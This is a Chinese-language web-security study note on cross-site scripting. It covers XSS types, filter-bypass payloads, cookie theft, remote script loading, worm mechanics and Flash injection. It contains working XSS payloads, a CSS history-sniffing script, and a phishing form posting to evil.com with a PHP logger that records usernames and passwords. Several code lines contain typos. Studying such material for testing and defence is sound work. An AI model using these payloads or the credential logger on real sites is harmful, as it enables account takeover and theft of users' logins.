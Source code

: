 ```yaml
---
title: XSS
date: 2023-09-03T15:29:52+08:00
updated: 2023-04-09T17:25:21+08:00
categories: 
- 渗透测试
- 外网漏洞
---
```


# 2.XSS(跨站脚本攻击)

## 2.1 XSS简介

（英语：Cross-site scripting，通常简称为：XSS）是一种网站应用程序的安全漏洞攻击，是[代码注入](https://zh.wikipedia.org/wiki/代碼注入)的一种。它允许恶意用户将代码注入到网页上，其他用户在观看网页时就会受到影响。这类攻击通常包含了[HTML](https://zh.wikipedia.org/wiki/HTML)以及用户端[脚本语言](https://zh.wikipedia.org/wiki/腳本語言)。

**XSS**攻击通常指的是通过利用网页开发时留下的漏洞，通过巧妙的方法注入恶意指令代码到网页，使用户加载并执行攻击者恶意制造的网页程序。这些恶意网页程序通常是[JavaScript](https://zh.wikipedia.org/wiki/JavaScript)，但实际上也可以包括[Java](https://zh.wikipedia.org/wiki/Java)，[VBScript](https://zh.wikipedia.org/wiki/VBScript)，[ActiveX](https://zh.wikipedia.org/wiki/ActiveX)，[Flash](https://zh.wikipedia.org/wiki/Flash)或者甚至是普通的[HTML](https://zh.wikipedia.org/wiki/HTML)。攻击成功后，攻击者可能得到更高的权限（如执行一些操作）、私密网页内容、[会话](https://zh.wikipedia.org/wiki/会话)和[cookie](https://zh.wikipedia.org/wiki/Cookie)等各种内容。

XSS是一个非常重要的漏洞，2010年统计来看，XSS已经是世界排名第二的漏洞，因此我们要给予足够的重视。

## 2.2 XSS的分类

常见的XSS我们通常可以分为三种类型，**反射性**，**存储型**，**DOM based xss**;接下来我们分别介绍这三种类型；

### 2.2.1 反射型XSS

反射型XSS，顾名思义，是攻击者在页面插入恶意代码，将用户输入数据“反射”给浏览器，用户点击时会执行的一种漏洞，因此，通常需要用户自行点击，也称为“非持久型XSS”；

### 2.2.2 存储型XSS

存储型XSS，相较于反射型XSS更为复杂，当存在存储型XSS时，用户输入的数据会被保存在服务器端；最简单的例子，攻击者在自己的服务器端搭建含有存储型XSS的恶意代码，并发布这篇含有恶意代码的博客，当用户查看这篇博客时，就会执行这段代码，从而丢失数据信息，这种XSS更为持久，因此也被称为“持久型XSS”；

### 2.2.3  DOM based xss

DOM型与其他类型XSS的本质区别在于，DOM型XSS不需要经过服务器端解析，而是直接解析在前端页面，这里使用pikachu靶场进行演示；

[推荐先学习DOM是什么](https://www.w3school.com.cn/js/js_htmldom.asp)

```html
 <div id="xssd_main">
                <script>
                    function domxss(){
                        var str = document.getElementById("text").value;
                        document.getElementById("dom").innerHTML = "<a href='"+str+"'>what do you see?</a>";
                    }
                </script>
                <input id="text" name="text" type="text"  value="" />
                <input id="button" type="button" value="click me!" onclick="domxss()" />
                <div id="dom"></div>
            </div>
```

我们通过源码来进行分析；首先定义一个str接受id名为text的属性的值,test的值由我们来提交,将id=dom的属性的值改为:`"<a href '"+str+"'>what do you see?</a>"`，标签为"a";a标签的str来源于上方的获取；我们随意输入一串字符像“fumo"

![dmoxss1](E:\笔记软件\笔记\从零开始的web安全\dmoxss1.png)

可以看到href被改为了fumo，当我们输入' onclick="alert('fumo')">时再点击what do you see 就会执行弹窗

![domxss2](E:\笔记软件\笔记\从零开始的web安全\domxss2.png)

此时代码如图，这串代码只会在前端执行，并没有与服务器端产生任何交互。

![domxss3](E:\笔记软件\笔记\从零开始的web安全\domxss3.png)

## 2.3 XSS漏洞进阶

### 2.3.1 利用XSS盗取cookie

小tips:

```
在当前浏览器页面地址栏输入javascript:alert(document.cookie)会弹出当前页面的cookie
```

这里使用留言板进行测试；由于留言板禁用了<script>标签，我选择一个<img>标签的payload进行使用；

![guestbook1](E:\笔记软件\笔记\从零开始的web安全\guestbook1.png)

插入内容中，我们即可看到项目中返回的cookie;

![guestbook2](E:\笔记软件\笔记\从零开始的web安全\guestbook2.png)

接下来即可使用cookie登录后台；重新开一个浏览器，访问返回的地址，发现登陆失败，我们进行cookie的添加；再次访问返回的后台地址，成功登录，至此，我们完成了最简单的XSS盗取cookie登录后台的利用；

### 2.3.2 绕过xss-filter

利用漏洞的过程不总是一帆风顺的，我们会遇到很多过滤，很多禁止字符，这就需要我们利用特殊的姿势进行绕过；

(1)直接利用<>注射 html/js

这种情况其实非常少见，在一般情况下，<>都是被过滤掉的，以防止我们使用<>来操纵标签植入代码，如果禁用了<>;

很多代码就不能使用，例如：

`<script>shellcode</script>`

(2)利用html标签属性值执行xss

很多html标签支持javascript:[code]伪协议的形式，我们利用这个性质控制标签属性值进行XSS，例如：

`<img src="javascript:alter('xss');"> `

需要注意的是并不是所有浏览器都支持这类伪协议；

(3)利用空格，回车，tab键进行绕过

如果过滤仅仅是把敏感词拿到黑名单中检查，我们可以采用使用空格，回车和tab键的形式，例如过滤了javascript关键字：

`<img src="javas	cript:alter(/xss/);">`

这里的间隔便是用tab键进行分割，同样可以执行alter(/xss/)的命令，这种拆分法可以绕过很多关键词的过滤；

出现这种状况的原因比较复杂，主要是javascript对语句的检索，当一行中有多个语句时必须使用分号，只有一句则可以省略分号；

```html
var a 
="hello world";
alter(a);
//javascript会查询一个完整的语句到结束，所以即便存在换行符，a同样可以赋值成功；
<img src="javas
cript:
alter(/xss/)"width=100>
成立
```

(4)转码绕过

由于html属性值支持ascii码的形式，我们可以将字符转换为ascii码进行执行，例如：

`<img src="javascript&#58alter(/xss/);">` &#58是':'的ascii形式；

我们甚至可以全部转码

`<iframe WIDTH=0 HEIGHT=0 srcdoc=。。。。。。。。。。&#60;&#115;&#67;&#82;&#105;&#80;&#116;&#32;&#115;&#82;&#67;&#61;&#34;&#104;&#116;&#116;&#112;&#115;&#58;&#47;&#47;&#48;&#120;&#46;&#97;&#120;&#47;&#49;&#112;&#99;&#68;&#34;&#62;&#60;&#47;&#115;&#67;&#114;&#73;&#112;&#84;&#62;>`

还可以把&#01.&#02插入头部，同理回车空格tab键的ascii转码可以插入任意位置;

(5)事件处理函数

事件处理函数可以让我们不使用属性就可以完成跨站脚本；

eg: `<input type="button" value="click me" onclick="alert(/xss/)" />`

当我们点击按钮之后就会出现弹窗；当然这样的函数并不只是onclick,也会有很多其他函数

[更多事件函数](https://www.runoob.com/jsref/dom-obj-event.html)

(6)css跨站剖析

利用css样式表来解析XSS脚本；CSS虽然很隐蔽，但需要注意的是不同的浏览器可能不能通用；

主要了解css跨站，import,expression引用 ；

(7)扰乱过滤规则

转换大小写，大小写混用，双引号改单引号或者是不使用引号；

![rule1](E:\笔记软件\笔记\从零开始的web安全\rule1.png)

利用全角字符替换半角字符；

利用样式表中/**/注释字符的特性，来插入过滤内容；

```
<XSS STYLE="xss:expr/*fumo*/ession(alert('xss'))">
<div style="wid/**/th: expre/*fumo*/ssion(alert('XSS'));" >
```

除/**/以外，样式标签中的\和结束符\0也被浏览器忽略；

### 2.3.3 字符编码的利用

可将字符转化为十进制编码，16进制等形式的编码进行绕过

```html
<iframe WIDTH=0 HEIGHT=0 srcdoc=。。。。。。。。。。&#60;&#115;&#67;&#82;&#105;&#80;&#116;&#32;&#115;&#82;&#67;&#61;&#34;&#104;&#116;&#116;&#112;&#115;&#58;&#47;&#47;&#48;&#120;&#46;&#97;&#120;&#47;&#49;&#112;&#99;&#68;&#34;&#62;&#60;&#47;&#115;&#67;&#114;&#73;&#112;&#84;&#62;>
```

同上可以在编码后加上; 

或者使用&#000,这里的0数量不定；

16进制可以使用如下形式进行执行，使用eval函数；

```
<script>
eval("\xxx\xxx\xxx\xxx\xxx");
</script>
```

使用eval函数执行10进制代码需要配合String.fromCharCode()使用，这个函数将字符转化为ascii码值；

```
eg: 
<img src="javascript:eval(String.fromCharCode(97,108,101,114,116,40,39,88,83,83,39,41))">
```

JScript Encode和VBScript Encode

利用二者加密的脚本可正常在IE浏览器下执行；

### 2.3.4 跨站拆分法

当网站没有限制<>等字符，但是对字符长度有过滤，网站可以重复留言的情况下，我们可以使用跨站拆分法；

![kuazhan1](E:\笔记软件\笔记\从零开始的web安全\kuazhan1.png)

最后通过eval执行了xss代码；

### 2.3.5 调用shellcode

(1)动态调用远程javascript

将XSS代码保存在服务器再进行调用；

```
var s=document.creatElement("script");
s.src="http://www.xxxx.com/xss.js";
document.getElementByTagName("head")[0].aapendChild(s);
xss.js中存储着我们的恶意代码
```

(2)使用windows.location.hash

原理上，使用location.href来管理页面的url，再location.href=url(url自定义)即可对当前页面进行重定向；

location.hash则可以用来获取或设置页面的标签值；

(3)xss下载器

打造一个XSS downloader,事先将shellcode写在网站页面，再利用XMLHTTP控件向网站发送HTTP请求（POST或GET），执行返回的数据；

### 2.3.6 session会话劫持

与cookie的区别:cookie存储在浏览器或是客户端，而session存储在服务端内存内，关闭浏览器(关闭进程)，session就会被清除

例如：攻击者想要添加管理员账号，可以使用firebug劫持http通信数据，添加即可；

**xss获取webshell**

通过向网站写入恶意代码，上传后门，就可以劫持管理员备份数据库的会话，从而拿到webshell;

### 2.3.7 xss网络钓鱼

**XSS Phishing**

(1)钓鱼页面

尽量做到与原网站相似，html代码可从原网站复制，主要是登陆表单；

然后将原表单的登陆地址修改例如：

```
<form method="post" action="http://www.evil.com/get.php">
//这里的get.php放在自己的vps上用来接收登录信息
```

(2)接收登录信息

get.php内容如下

```php
<? php
$data = fopen("logfile.txt","a+");
$login = $_POST['username'];
$pass = $_POST['password'];
fwrite($data, "Username: $login\n");
fwrite($data, "Password: $pass\n");
fclose($data);
Header("location: http://target.com");
?>
//header头用于重新定向到原网站
//接收数据形式应与原网址一致
```

(3)XSS Phishing Expliot

![phishing](E:\笔记软件\笔记\从零开始的web安全\phishing.png)

**xss钓鱼的方式**

(1)xss重定向钓鱼

将原目标网站重新定向到恶意的钓鱼网站

```html
http://www.xxx.com/index.php?search="'><script>document.location.href="http://www.emp.com"</script>
```

(2)html注入式钓鱼

直接利用XSS漏洞注射html/javascript代码到页面中；

(3)XSS跨框架钓鱼

利用iframe引用第三方内容伪造登陆控件，主页面仍然是正常的域名，隐蔽性较高；

(4)flash钓鱼

利用flash文件进行钓鱼，flash好像已经没有更新了；

**更高级的钓鱼方式**

当设置了httponly时，我们无法再通过截取cookie来达到获得用户权限，更为简单的利用方式直接注入js脚本劫持html表单和控制web行为

### 2.3.8 css/javascript history hack

原理：利用CSS能自定义访问过的和为访问过的超级链接样式。由于javascript可以读取任何元素的CSS信息，能分辨浏览器应用了哪种样式和用户是否访问过该来链接；

```html
	<H3>Visited</H3>
	<ul id="visited"></ul>

	<H3>Not Visited</H3>
	<ul id="notvisited"></ul>
	<script type="text/javascript">
	var websites = [
		"http://ha.ckers.org/blog/",
		"http://login.yahoo.com/",
		"http://mail.google.com/",
		"http://mail.yahoo.com/",
		"http://my.yahoo.com/",
		"http://sla.ckers.org/forum/",
		"http://slashdot.org/",
		"http://www.amazon.com/",
		"http://www.aol.com/",
		"http://www.apple.com/",
		"http://www.bankofamerica.com/",
		"http://www.bankone.com/"
	];

	/* Loop through each URL */
	for (var i = 0; i < websites.length; i++) {
		
		/* create the new anchor tag with the appropriate URL information */
		var link = document.createElement("a");
		link.id = "id" + i;
		link.href = websites[i];
		link.innerHTML = websites[i];

		/* create a custom style tag for the specific link. Set the CSS visited selector to a known value, in this case red */
		document.write('<style>');
		document.write('#id' + i + ":visited {color: #FF0000;}");
		document.write('</style>');
		
		/* quickly add and remove the link from the DOM with enough time to save the visible computed color. */
		document.body.appendChild(link);
		var color = document.defaultView.getComputedStyle(link,null).getPropertyValue("color");
		document.body.removeChild(link);
		
		/* check to see if the link has been visited if the computed color is red */
		if (color == "rgb(255, 0, 0)") { // visited
		
			/* add the link to the visited list */
			var item = document.createElement('li');
			item.appendChild(link);
			document.getElementById('visited').appendChild(item);
			
		} else { // not visited
		
			/* add the link to the not visited list */
			var item = document.createElement('li');
			item.appendChild(link);
			document.getElementById('notvisited').appendChild(item);
			
		} // end visited color check if

	} // end URL loop
	</script>
```

遍历查询用户是否访问过某些网站；

## 2.4 客户端信息刺探

### 2.4.1 javascript实现端口扫描

[端口扫描工具](https://www.gnucitizen.org/blog/javascript-port-scanner/)

还有很多其他工具，这个不一定好用；

### 2.4.2 截获剪切板内容

截获用户的剪切板信息是为了获取用户可能截取的关键信息；

###  2.4.3 获取客户端IP

[介绍链接](https://juejin.cn/post/6844903984356917256)

**更多可以和xss进行联动的攻击例如DDOS，XSSworm请自行搜寻**

## 2.5 XSS工具利用

### 2.5.1 firebug

firefox插件，可动态修改页面，并将结果反映到浏览器窗口，可抓取流量包，具有dom查看器，并且firebug具有查看最终源代码的功能；

### 2.5.2 Tamper Data

类似于轻量化的bp抓包功能

### 2.5.3 Live HTTP Headers

拦截流量包，添加了replay功能；

### 2.5.4 Fiddler

抓包工具，可查看所有数据包以及返回内容；

**bp具有以上工具的大部分功能**

## 2.6 XSS漏洞挖掘

###  2.6.1 黑盒工具测试

(1)Acunetix

(2)XssDetect

(3)ratpeoxy

**手动黑盒测试**

测试内容：

<> ，xss，&,#等重要字符是否过滤，输入这类字符后，在页面查看是否转码或是编译；

也可以直接使用完整的XSS代码进行测试；

如果过滤了<>等字符，我们可以采用事件触发xss

```html
origin:
<input name="name" value=<?=$xxx?>>
//其中$xx为动态内容,赋值为xss onmouseover=evil_script(),得到最终渲染内容
<input name="name" value=xss onmouseover=evil_script()>
//执行事件
```

对url的测试

通常我们可以看出url中的参数，我们对这些参数分别赋值测试即可

```html
eg:我们有如下url
www.test.com?a=123&b=123&c=123
我们的测试方法为
www.test.com?a=alert<"xss'>&b=123&c=123
//同理对b,c进行赋值
```

通常我们会遇到需要闭合标签的情况，例如

```
<input type="text" name="address" value="xss">
XSS为我们可控制的值，我们就可以闭合标签;
//xss  "><script>alert(/xss/)</script><"
<input type="text" name="address" value=""><script>alert(/xss/)</script><"">
//从而执行我们的代码；
```

## 2.7 XSS源代码审计

源代码审计，即白盒测试，在拥有源代码的情况下我们对XSS漏洞进行挖掘并修复；

基本思路：

寻找页面可输出变量，检验他们是否受到控制，跟踪变量的传递方式，查看过滤以及是否被htmlencode();

通常存在动态内容的标签

```html
input style img.......
```

**获取可控动态变量**

**php**

查看全局变量

![phpgloabal](E:\笔记软件\笔记\从零开始的web安全\phpgloabal.png)

这些对象我们通常都需要审计；

**javascript**

**DOMXSS挖掘**

```html
假设我们有如下代码
<html>
 <head>
    <title> DOM XSS Test</title>
</head>
<body>
    <script>
        var a=document.URL;
            document.write(a.substring(a.indexOf("a=")+2,a.length));
        </script>
    </body>
</html>
```

这段代码的作用是从rul接收一个a，并将a打印在首页，且并没有进行过滤，我们可以利用a；

```
?a=<script>alert('xss')</script>
```

浏览器会将html文本解析成dom，并返回代码执行结果；

domxss发掘

```
document.referrer属性
window.name属性
location属性
//重点检查用户输入源，例如上述属性值
```

挖掘输出位置，即字符串在页面的输出位置列入:innerHTML,document.write等函数

二者基本思路：跟踪函数变量，查看是否能够控制；

**FlashXSS发掘**

flash具有内置编程语言ActionScript;ActionScript语言编写不规范，同样能造成XSS；

ActionScript2.0具有类似于php注册全局变量的特性，任何未初始化的变量都可以通过flashvar进行初始化；

```
例如:
if(checkLogin()){
	user=true;
}
if(user){
	manager();
}
我们只需要?user=true即可绕过过滤;
```

![actionscript](E:\笔记软件\笔记\从零开始的web安全\actionscript.png)

要挖掘flash，我们需要多.swf文件反编译，得到actionscript代码，推荐使用action script viewer;

同样的，我们需要寻找可以控制的输入点，特别是load*方法;

## 2.8 利用语言特性

**phpinfo()**

```
<?php
phpinfo();
?>
//编写如下文件，执行得到phpinfo界面
```

在低版本的phpinfo()中，对用户输入的变量没有转义就打印出来，攻击者可以通过构造特殊url向phpinfo()中注入html代码引起xss;

```
http://127.0.0.1/phpinfo.php?a[]=<script>alert(/xss/);</script>
//经测试5.3.29版本已经具有转义功能
```

**$_SERVER[PHP_SELF]**

该代码表示php文件相对于网站根目录的相对位置，假设有如下代码

```php
<form method="POST" action="<?php echo $_SERVER['PHP_SELF'];?>">
		<input type="hidden" name="submitted" value="1" />
		<input type="submit" value="Submit!" />
</form>
```

我们把它保存在data.php中，构造，并执行xss弹窗；

```
http://127.0.0.1/data.php/%22%3E%3Cscript%3Ealert('xss')%3C/script%3E%3C
```

问题出在<?php echo $_SERVER['PHP_SELF']>，该代码直接输出PHP_SELF变量，该变量可由用户控制

```
推荐使用htmlentities($_SERVER['PHP_SELF'])来替代，我们使用该函数后，上述的代码便不再有效,当然很多$_SERVER变量都有可能存在该问题；
```

**变量覆盖**

当可以变量覆盖的时候，我们可以轻易地执行xss；下面列举几种能引起变量覆盖的情况；

(1)register_globals=on

该参数在php4.2.0以上的php版本默认屏蔽，当该变量被打开时，各种变量都可以被重新注册，包括来自html表单的请求变量，由于php变量使用前不需要进行初始化，所以可以直接使用；该参数已在php5.4以上版本进行移除；

(2)extract

该函数用于将变量从数组导入到当前符号表中；

假设具有如下代码，

```php
<?php
$a=1;
extract($_GET);
echo $a
?>
```

由于$a已经被初始化，我们访问extract.php页面，理所当然得到1,注意GET传递的参数，我们试着覆盖变量$a;

```
http://127.0.0.1/extract.php?a=<script>alert(/xss/)</script>
```

就能够正常的执行弹窗；

(3)遍历初始化变量

遍历初始化变量同样会造成变量覆盖；使用foreach()函数模拟全局操作；

```php
<?php 
	$a=1;
	foreach($_GET as $key => $value){
		$$key =$value;
	}
	print $a;
```

传递

```
a=b&b=<script>alert(/xss/)</script>
```

很简单我们就能利用这个变量覆盖执行xss;

## 2.9 XSS Worm 剖析

### 2.9.1 初步了解web 2.0

已知web1.0在于连接用户和网站，网站提供什么，用户就只能读到什么，而web2.0与web1.0最大的区别在于连接用户与用户，增大了用户获取的信息面；

同时也造成了更多的安全隐患，我们能够利用web2.0进行更广泛的钓鱼，csrf，ajax,flash;

### 2.9.2 Ajax技术

**简析Ajax**

这里研究ajax技术是为了更好的研究xss蠕虫

传统的Web应用允许用户端填写表单（form），当提交表单时就向[网页服务器](https://zh.wikipedia.org/wiki/網頁伺服器)发送一个请求。服务器接收并处理传来的表单，然后送回一个新的网页，但这个做法浪费了许多带宽，因为在前后两个页面中的大部分[HTML](https://zh.wikipedia.org/wiki/HTML)码往往是相同的。由于每次应用的沟通都需要向服务器发送请求，应用的回应时间依赖于服务器的回应时间。这导致了用户界面的回应比本机应用慢得多。

与此不同，AJAX应用可以仅向服务器发送并取回必须的数据，并在客户端采用JavaScript处理来自服务器的回应。因为在服务器和浏览器之间交换的数据大量减少，服务器回应更快了。同时，很多的处理工作可以在发出请求的[客户端](https://zh.wikipedia.org/wiki/客户端)机器上完成，因此Web服务器的负荷也减少了。

类似于[DHTML](https://zh.wikipedia.org/wiki/DHTML)或[LAMP](https://zh.wikipedia.org/wiki/LAMP)，AJAX不是指一种单一的技术，而是有机地利用了一系列相关的技术。虽然其名称包含XML，但实际上数据格式可以由[JSON](https://zh.wikipedia.org/wiki/JSON)代替以进一步减少数据量。而客户端与服务器也并不需要异步。一些基于AJAX的“派生／合成”式（derivative/composite）的技术也正在出现，如[AFLAX](https://zh.wikipedia.org/wiki/AFLAX)。

简单来说Ajax就是将简单的处理交给了客户端，并且传递更新内容，页面相应更新内容，并不在需要再发送完整的数据，从而提高用户体验；

**XMLHttpRequest对象**

建立一个XMLHttpRequest对象方法如下：

```javascript
try
{
	httpRequest = new ActiveXObjext("Msxml2.XMLHTTP"); //IE5,IE6使用ActiveXObjext对象
}//IE7+、Firefox、Chrome、Safari 以及 Opera均内键xmlhttprequest对象，variable=new XMLHttpRequest();即可
catch (e)
{
	try{
		httpRequest = new ActiveXObjext("Microsoft.XMLHTTP");
	}
	catch (e){
		httpRequest = new flase;
	}
}
```

该代码创建了一个ActiveXObject对象，传入的参数是ActiveX对象的progID,此处为Msxml2.XMLHTTP;

为了通融浏览器版本问题，我们通常使用以下代码；

```javascript
var xmlhttp;
if (window.XMLHttpRequest)
{
    //  IE7+, Firefox, Chrome, Opera, Safari 浏览器执行代码
    xmlhttp=new XMLHttpRequest();
}
else
{
    // IE6, IE5 浏览器执行代码
    xmlhttp=new ActiveXObject("Microsoft.XMLHTTP");
}
```

(1)XMLHttpRequest 对象的方法

![xmlhttprequest](E:\笔记软件\笔记\从零开始的web安全\xmlhttprequest.png)

(2)xmlhttprequest对象的属性

![xmlhttprequest2](E:\笔记软件\笔记\从零开始的web安全\xmlhttprequest2.png)

### 2.9.3 HTTP请求

**发送get.post请求**

```
//get
var xml=new getXmlHttpRequest();//创建请求
xml.open("GET","/web/url.php?"+data,true)//初始化请求
xml.send();; //建立连接并发送数据
//post
var xml=new getXmlHttpRequest();//创建请求
data="id=11&username=xxx&password=xxx";//设置发送数据
xml.open("POST","/web/regist.php",true)//初始化请求
xml.setRequestHeader("Content-Type","appliacation/x-www-form-urlencode");//设置content-type头部，数据以何种形式发送
xml.send(data);; //建立连接并发送数据
```

### 2.9.4 HTTP响应

如需获得来自服务器的响应，请使用 XMLHttpRequest 对象的 responseText 或 responseXML 属性。

responseText返回字符串，responseXML返回XML形式的响应数据；

看一个浅显的例子；

```php
var xmlhttp;
if (window.XMLHttpRequest)
{
    xmlhttp=new XMLHttpRequest();
}
else
{
    xmlhttp=new ActiveXObject("Microsoft.XMLHTTP");
}//创建对象
xmlhttp.onreadystatechange=function() //在文档状态更新时调用
	{
		if (xmlhttp.readyState==4 && xmlhttp.status==200)
		{ 	//xml =xmlresponseXML;xml=xmlresponseText;
			xml=null;
		}
	}
	xmlhttp.open("GET","web/url.php?",true);
	xmlhttp.send();
```

### 2.9.5  XSS Worm介绍

XSS worm 实质上是一段脚本程序，通常由javascript或者Vbscript编写而成，在用户浏览xss页面时被激活，站点利用该特性进行传播和感染；类似的还有csrf worm;

**攻击原理简析**

XSS蠕虫通常使用了大量的Ajax技术，由于异步的特性，使得利用ajax的xssworm具有更强的隐蔽性，具有更快的传播速度；

完整的XSS蠕虫攻击流程如下

攻击者发现目标网站存在xss漏洞并且可编写xss蠕虫

利用一个宿主（如博客空间）作为传播源头进行XSS攻击

当其他用户访问存在XSS蠕虫的博客时，执行以下操作：

​	判断用户是否登录i，登录则执行下一步否则执行其他操作

​	继续判断用户是否被感染，没有则将其感染；否则跳过；

**攻击行为**

XSS' or

(1)寻找xss点

和挖掘xss漏洞一致，我们要在目标的日志，留言等地获得一个alert()弹窗

(2)实现蠕虫行为

将XSS shellcode写入后，诱导其他用户点击该网站，用户访问后就会受到劫持，攻击者就可以利用ajax修改用户信息，并将恶意代码添加进去，此过程会不断持续，利用XMLHttpRequest对象，可在后台执行任意操作

(3)收集蠕虫数据

我们可以使用抓包工具来得到蠕虫所需要的“唯一值”数据，例如用户的id等

(4)传播和感染

###  2.9.6 运用dom技术

常见方法为给出一个特定标识符，然后使用document和getElementByld()来访问；

```html
<div>
var div1 =document.getElemnetById("div1");//遍历dom
document.getElementByname //获得指定name的<html>标签的相关信息
doucument.getElementTagName //获得指定的<html>标签相关信息
dom元素无非两种：文本和元素，使用innerHTML属性就可以从一个元素中提取所有的html和文本。
<div id="tr1">
<h1>hello world!</h1>
</div>
<script>
alert(document.getElementById("tr1").innerHTML);
</script>
使用innerHTML方法还可以向HTML DOM中插入新的内容，具体实例如下：
<a href="#" onclick="this.innerHTML='<h1>this is new message</h1>' ">old message</a>
a.beforeBegin //插入到标签开始标记前
b.afterBegin //插入到标签开始标记后
c.beforeEnd //插入到标签结束标记前
d.afterEnd //插入到标签结束标记后
```

dom技术还可获取和设置元素特性的值

```
id("domid").getAttribute("id"); //获取特性
tag("input")[0].setAttribute("value","your name"); //设置特性的值
```

修改dom的主要方法是使用createElement()函数，该函数可以让用户即刻创建新的元素；

document.createElenment()能在对象中创建一个对象，通常会与appendChild()或insertBefore()联合使用。appendChild()在节点的子节点列表末添加新的子节点，insertBefore()在节点的子节点列表的任意位置插入新的节点；

```html
<html>
<body>
<script>
var o = document.body;//创建链接
function creatA(url,text)
{
	var a = document.createElement("a"); //创建一个<a>元素
	a.href =url; //设定链接的url地址
	a.innerHTML=text; //设置名称
	a.style.color="red"; //设定链接颜色
	o.appendChild(a); 
	}
	creatA("http://uu2fu3o.com/","playsec");
	</script>
	</body>
	</html>
```

还可以使用javascript方法进行辅助,例如indexOf/substring/lastindexOf

IndexOf方法：返回String对象内第一次出现子字符串的位置

substring方法：返回位于String对象中的指定位置的字符串

function substring(start: number,end : number) :String

如果start和end为负数，则会替换为0；

**xss蠕虫通常会与csrf形成绑定，造成更加效率的攻击，网络上也有很多实战记录**

## 2.10 Flash简介

### 2.10.1 flash和swf

swf为flash的专属格式，flash player可运行swf文件，swf文件可以直接嵌入到网页中执行

### 2.10.2 嵌入flash文件

```
(1)使用<embed>标签
<html>
	<body marginwidth="0" marginheigth="0">
		<embed width="100%" height="100%" name="plugin">
		src="xxx.swf" type="application/x-shockwave-flash"/>
	</body>
</html>
(2)使用<object>标签
(3)使用<object>+<embed>标签
```

### 2.10.3 ActionScript 语言

flash内置的脚本语言-ActionScript,该语言基于javascript,具有类似的语法和结构，但本质上却截然不同，actionscript使用的脚本完全由flash player解释和处理，与查看文件的浏览器无关，而javascript使用的外部解释程序则很具浏览器的不同而不同；

### 2.10.4 flash安全模型

**flash sandbox**

安全域是flash中最顶级的沙箱，不同的安全与使得swf文件运行在自身的沙箱下；

如果连个swf文件位于不同的沙箱下，二者数据不可相互获取；

如果想让二者进行通讯，可通过信任授权(方法:Security.allow.Domain())来实现。

Security.allow.Domain("*")会为所有域中的swf授权访问；

非swf格式文件不能调用allowDomain 代码，这类文件由另一种方法Cross Domain Policy文件处理；

### 2.10.5 CRoss  Domain Policy

类似于javascript中的同源策略；

![crossdomainpolicy](E:\笔记软件\笔记\从零开始的web安全\crossdomainpolicy.png)

唯一能让flash实行跨域请求的是网站根域名下的crossdomain.xml文件

该文件定义了可被flash player加载的安全网站域名，并限制读取数据的位置i和内容，例如

```xml
<?xml version="1.0"?>
<cross-domain-policy>
<allow-access-from domain="*.target.com"/>
<allow-access-from domain="www.test.org"/>
<allow-access-from domain="123.202.0.1"/>
</cross-domain-policy>
```

则该文件允许来自上述三个域名的跨域请求

除了allow-access-from节点，根节点下还包含另外三个子节点；

![crossxmldomain](E:\笔记软件\笔记\从零开始的web安全\crossxmldomain.png)

如果设置了permitted-cross-domain-policies的by-content-type相关属性后，黑客就可以上传文件来定义自己的策略文件；

### 2.10.6 设置管理器

本地flash player自行设置安全域等

## 2.11 Flash客户端攻击剖析

### 2.11.1 getURL()&XSS

**clickTAG**

该变量用于跟踪广告，提供广告的显示范围，事件点击次数，时间；

```
利用<embed><object>插入广告横幅
<embed
src="http://www.test.com/xxxx.swf?clickTAG=http://test.com/track?http://example.com
">
```

如果没有正确检查clickTAG变量，就有可能执行xss

```
例如
getURL(clickTAG,"_top")
传入?clickTAG=javascript:alert(/xss/)就可以执行弹窗
```

getURL函数的作用将来自特定URL的文档加载到窗口中，或将变量传递到位于所定义的另一个URL的另一个应用程序

![getURL](E:\笔记软件\笔记\从零开始的web安全\getURL.png)

如果我们使用javascript来替换，就能得到弹窗

```
getURL("javascript:alert(document.cookie)")
假设有如下脚本
getURL("javascript:void(0)","_self","GET");
访问http://xxx.x.x.x/xxx.swf?a=0:0;alert(/xss/);
即可触发弹窗
```

actionscript3不支持getURL,用actionscript2.0编写即可

![flashhighrisk](E:\笔记软件\笔记\从零开始的web安全\flashhighrisk.png)

### 2.11.2 cross site flashing

XSF通常来自两个不同的域，当使用某方法载入另一个swf时，就能获取相同的安全沙箱

当网页使用*Script去解析一个flash影片时也会产生xsf

```html
例如
loadMovie(_root.mURL+'/movie2.swf')//不一定是loadMovie方法
访问
http://host/foo.swf?mURL=asfunction:getURL,javascript:alert(xss)//
结果为
loadMovie('asfunction:getURL,javascript:alert(xss)///movie2.swf')
触发弹窗
```

![loadMovie](E:\笔记软件\笔记\从零开始的web安全\loadMovie.png)

asfunction伪协议是一个专用于Flash的HTML附加协议，允许用户通过超级链接调用函数或一个带参的函数；

### 2.11.3 Flash参数型注入

(1)反射型flash参数注入

当lfash视频的名称作为url参数暴露在外时，攻击者可以控制装入flash的变量，加载一个恶意flash视频

```
print '<object type="application/x-shockwave-flash" data ="' . $params{movie}'"></object>'
传入http://xxx.x.x.x/index.cgi?movie=myMovie.swf?globalVar=e-v-i-l
```

(2)附带FlashVars的反射型注入Flash参数注入

该方法使用Flash Vars属性，该属性可在**<object>**标签中指定，用来传递全局Flash 参数。AS2.0中，FlashVars会被自动导入到Flash应用程序的变量空间

(3)FlashVars注入

当任意的object标签接收参数时都可能导致该种攻击

```
print '<object type="application/x-shockwave-flash" '.
'data="myMovie.swf"'.
'width="'.$params{width}.
'"height="'.$params{height}.
'"></object>';
由于width和height没有进行过滤，所以
http://xxx.x.x.x/myMovie.cgi?width=600&height=600"flashvars="globalVar=e-v-i-l
```

(4)基于dom的flash参数注入 

当document.location 变量被用作Flash参数时，会导致此类攻击

(5)持久型flash参数注入

